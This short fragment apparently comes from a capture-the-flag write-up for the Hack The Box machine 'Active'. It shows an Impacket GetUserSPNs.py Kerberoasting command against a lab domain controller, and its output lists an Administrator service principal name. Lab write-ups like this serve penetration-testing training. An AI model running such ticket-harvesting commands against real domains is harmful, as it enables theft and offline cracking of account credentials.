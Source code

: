 
	sudo python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

	Password:
	ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
	--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
	active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783